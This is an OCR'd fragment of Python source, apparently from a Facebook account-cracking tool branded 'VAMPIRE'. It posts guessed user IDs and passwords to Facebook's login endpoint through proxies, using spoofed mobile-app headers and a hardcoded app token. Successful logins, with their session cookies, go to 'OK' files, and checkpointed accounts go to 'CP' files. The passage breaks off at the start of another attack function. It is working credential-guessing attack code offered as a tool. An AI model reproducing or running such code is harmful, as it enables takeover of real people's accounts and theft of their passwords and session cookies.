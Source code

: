             headers = {'User-Agent': f'{R5}', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'Keep-Alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000, 40000)), 'X-FB-SIM-HNI': str(random.randint(20000, 40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': '62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=headers,proxies=bro).text
            q = json.loads(po)
            if 'session_key' in q:
                ckkk = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                uid=str(q['uid'])
                abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
                ckk = f'https://graph.facebook.com/{uid}/picture?type=normal'
                res = requests.get(ckk).text
                if 'Photoshop' in res:
                    print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{uid} {red}| {green}{pas} ")
                    oks.append(ids)
                    open('/sdcard/VAMPIRE/VAMPIRE-RNOM-OK.txt','a').write(uid+'|'+pas+'|'+ckkk+'\n')
                    print(f"\r\r {red}[{green}COOKIE{red}]{green} ={abir} {coki}")
                    break
            elif 'www.facebook.com' in q:
                cps.append(ids)
                print(f"\r\r {green}[{red}VAMPIRE-CP{green}] {uid} {red}|{green} {pas} ")
                open('/sdcard/VAMPIRE/VAMPIRE-RNOM-CP.txt','a').write(ids+'|'+pas+'\n')
                break
            else:continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
#---------RANDOM M6
def randm5(ids,psd,tl):
    global loop,oks,cps,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
